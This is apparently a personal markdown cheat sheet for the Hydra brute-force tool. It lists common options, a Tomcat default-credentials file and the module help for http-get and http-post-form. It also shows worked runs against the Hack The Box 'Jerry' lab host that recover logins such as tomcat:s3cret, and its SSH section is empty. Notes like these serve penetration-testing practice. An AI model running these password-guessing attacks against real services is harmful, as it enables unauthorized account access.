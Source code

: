 - [Basic](#basic)
     - [Common Options](#common-options)
     - [Username:Password Combination](#usernamepassword-combination)
     - [Supported Services](#supported-services)
- [HTTP](#http)
     - [hydra -U http-get](#hydra--u-http-get) arrangement doesn't matter
     - [hydra http-post-form -U](#hydra-http-post-form--u)
     - [HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables](#use-hydra_proxy_http-or-hydra_proxy-environment-variables-for-a-proxy-setup)
     - [Debug, send Hydra output to Burp](#to-debug-send-hydra-output-to-burp-use-this-in-the-same-line)
     - [Common Mistakes](#common-mistakes)
     - [Now you got it right](#now-you-got-it-right)
     - [Common Mistakes; variables argument needed for http-post-form](#common-mistakes-variables-argument-needed-for-http-post-form)
- [SSH](#ssh)


# [Basic](#basic-1)
HTB: ???
```sh
hydra -C creds.txt http-get://10.10.10.95:8080/manager/html
hydra -U http-get
hydra -C creds.txt http-get://10.10.10.95:8080/manager/html:F='Access Denied'
```

## [Common Options](#common-options-1)
```sh
-l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
-p PASS  or -P FILE  try password PASS, or load several passwords from FILE
-C FILE   colon separated "login:pass" format, instead of -L/-P options

-U        service module usage details

-v   verbose mode
-V   show login+pass for each attempt
-d   debug mode

-f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
```

## [Username:Password Combination](#usernamepassword-combination-1)
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
Save as: labs/htb/_BeginnerTrack/Jerry/creds.txt
```sh
admin:password
admin:
... snip ...
tomcat:admin
tomcat:changethis
```

## [Supported Services](#supported-services-1)
```sh
Supported services: adam6500 asterisk cisco cisco-enable cobaltstrike cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp
```

# [HTTP](#http-1)

### hydra -U http-get
hydra -U http-get
hydra http-get -U
```sh
$ hydra -U http-get
Help for module http-get:
============================================================================
Module http-get requires the page to authenticate.
The following parameters are optional:
 (a|A)=auth-type   specify authentication mechanism to use: BASIC, NTLM or MD5
 (h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request
 (F|S)=check for text in the HTTP reply. S= means if this text is found, a
       valid account has been found, F= means if this string is present the
       combination is invalid. Note: this must be the last option supplied.
For example:  "/secret" or "http://bla.com/foo/bar:H=Cookie\: sessid=aaaa" or "https://test.com:8080/members:A=NTLM"
```

### hydra http-post-form -U
```sh
$ hydra http-post-form -U
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-15 17:40:15

Help for module http-post-form:
============================================================================
Module http-post-form requires the page and the parameters for the web form.

By default this module is configured to follow a maximum of 5 redirections in
a row. It always gathers a new cookie from the same URL without variables
The parameters requires at a minimum three ":" separated values,
plus optional values.
(Note: if you need a colon in the option string as value, escape it with "\:", but do not escape a "\" with "\\".)

Syntax: <url>:<form parameters>[:<optional>[:<optional>]:<condition string>

First is the page on the server to GET or POST to (URL), e.g. "/login".
Second is the POST/GET variables (taken from either the browser, proxy, etc.)
 without the initial '?' character and the usernames and passwords being
 replaced with "^USER^" ("^USER64^" for base64 encodings) and "^PASS^"
 ("^PASS64^" for base64 encodings).
Third are optional parameters (see below)
Last is the string that it checks for an *invalid* login (by default).
 Invalid condition login check can be preceded by "F=", successful condition
 login check must be preceded by "S=".
 This is where most people get it wrong! You have to check the webapp what a
 failed string looks like and put it in this parameter! Add the -d switch to see
 the sent/received data!
 Note that using invalid login condition checks can result in false positives!

The following parameters are optional and are put between the form parameters
  and the condition string; seperate them too with colons:
 2=                  302 page forward return codes identify a successful attempt
 (c|C)=/page/uri     to define a different page to gather initial cookies from
 (g|G)=              skip pre-requests - only use this when no pre-cookies are required
 (h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request
                 ^USER[64]^ and ^PASS[64]^ can also be put into these headers!
                 Note: 'h' will add the user-defined header at the end
                 regardless it's already being sent by Hydra or not.
                 'H' will replace the value of that header if it exists, by the
                 one supplied by the user, or add the header at the end

Note that if you are going to put colons (:) in your headers you should escape
them with a backslash (\). All colons that are not option separators should be
escaped (see the examples above and below).
You can specify a header without escaping the colons, but that way you will not
be able to put colons in the header value itself, as they will be interpreted by
hydra as option separators.

Examples:
 "/login.php:user=^USER^&pass=^PASS^:incorrect"
 "/login.php:user=^USER64^&pass=^PASS64^&colon=colon\:escape:S=result=success"
 "/login.php:user=^USER^&pass=^PASS^&mid=123:authlog=.*failed"
 "/:user=^USER&pass=^PASS^:H=Authorization\: Basic dT1w:H=Cookie\: sessid=aaaa:h=X-User\: ^USER^:H=User-Agent\: wget"
 "/exchweb/bin/auth/:F=failedowaauth.dll:destination=http%3A%2F%2F<target>%2Fexchange&flags=0&username=<domain>%5C^USER^&password=^PASS^&SubmitCreds=x&trusted=0:C=/exchweb":reason=
```

### Use HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables for a proxy setup.
```sh
$ hydra -h
... [snip] ...
E.g. % export HYDRA_PROXY=socks5://l:p@127.0.0.1:9150 (or: socks4:// connect://)
     % export HYDRA_PROXY=connect_and_socks_proxylist.txt  (up to 64 entries)
     % export HYDRA_PROXY_HTTP=http://login:pass@proxy:8080
     % export HYDRA_PROXY_HTTP=proxylist.txt  (up to 64 entries)
... [snip] ...
```

### [To debug, send Hydra output to Burp. Use this in the same line](#to-debug-send-hydra-output-to-burp-use-this-in-the-same-line-1)
```sh
HYDRA_PROXY_HTTP=http://localhost:8080 hydra -C creds.txt http-get://10.10.10.95:8080/manager/html:F='Access Denied'
```

### [Common Mistakes](#common-mistakes-1)
login: admin   password: admin are not the right combination, see the help above
```sh
$ hydra -C creds.txt http-get://10.10.10.95:8080/manager/html

[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 2 valid passwords found

```

### [Now you got it right](#now-you-got-it-right-1)
```sh
$ hydra -C creds.txt http-get://10.10.10.95:8080/manager/html:F='Access Denied'

[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries, ~2 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html:F=Access Denied
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 1 valid password found
```

### [Common Mistakes; variables argument needed for http-post-form](#common-mistakes-variables-argument-needed-for-http-post-form-1)
```sh
$ hydra http-post-form://$ip
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-15 17:46:05
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[ERROR] the variables argument needs at least the strings ^USER^, ^PASS^, ^USER64^ or ^PASS64^: (null)
```

### 
Syntax: <url>:<form parameters>[:<optional>[:<optional>]:<condition string>
```

```

# [SSH](#ssh-1)

### 
```

```

### 
```

```

### 
```

```